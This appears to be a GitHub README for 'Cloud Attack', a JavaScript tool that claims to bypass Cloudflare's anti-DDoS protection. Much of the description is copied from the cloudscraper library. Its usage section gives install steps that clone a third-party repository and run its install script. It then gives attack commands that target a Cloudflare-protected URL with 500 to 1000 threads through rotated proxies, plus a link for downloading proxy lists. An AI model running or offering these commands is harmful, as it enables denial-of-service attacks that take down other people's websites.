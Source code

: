 # Cloud Attack                                                       
                                                          

It is a simply script with a library to bypass Cloudflare UAN anti-ddos page, build in js.

[![js-semistandard-style](https://cdn.rawgit.com/flet/semistandard/master/badge.svg)](https://github.com/Flet/semistandard)

[![Build status](https://img.shields.io/travis/codemanki/cloudscraper/master.svg?style=flat-square)](https://travis-ci.org/codemanki/cloudscraper)
[![Coverage](https://img.shields.io/coveralls/codemanki/cloudscraper.svg?style=flat-square)](https://coveralls.io/r/codemanki/cloudscraper)
[![Dependency Status](https://img.shields.io/david/codemanki/cloudscraper.svg?style=flat-square)](https://david-dm.org/codemanki/cloudscraper)
[![Greenkeeper badge](https://badges.greenkeeper.io/codemanki/cloudscraper.svg?style=flat-square)](https://greenkeeper.io/)

This library is a port of python module cloudflare-scrape with couple enhancements and test cases ;)
. All grats to its author \m/

If the page you want to access is protected by Cloudflare, it will return special page, which expects client to support Javascript to solve challenge.

This small library encapsulates logic which extracts challenge, solves it, submits and returns the request page body.

You can use cloudscraper even if you are not sure if Cloudflare protection is turned on.

In general, Cloudflare has 4 types of _common_ anti-bot pages:
  - Simple html+javascript page with challenge
  - Page which redirects to original site
  - Page with recaptcha
  - Page with error ( your ip was banned, etc)
  

Usage
#Install on Google Colab <a href="https://colab.research.google.com">here</a>
============
```javascript
Install on Kali/Debian

!git clone https://github.com/CryptoXSS/cloudAttack3
%cd cloudAttack3
!chmod +x install.sh
!./install.sh

Run: node cloudattack.js --attack "yoursite" --threads 500 
Proxys: --proxy true --updateproxy true


Example: !node cloudattack.js --attack "https://www.acloudflaresite.com" --threads 1000 --proxy true   
```

#Update proxy.txt
https://1drv.ms/u/s!AoFeNfGwTmEFiHUT3F2aoCMH4_Dl?e=myTUfg

## Dependencias:
  - npm install 
  - npm install minimist 
  - npm install cloudscraper
  

## Our contributors 
 - [D-Code](https://github.com/dcodeni)
 - [Azmyoel](https://github.com/azmyoel)
 - [YottaiQ](https://github.com/yottaiq)
 

Version 1.0

Twitter: @AnonGuegue
 
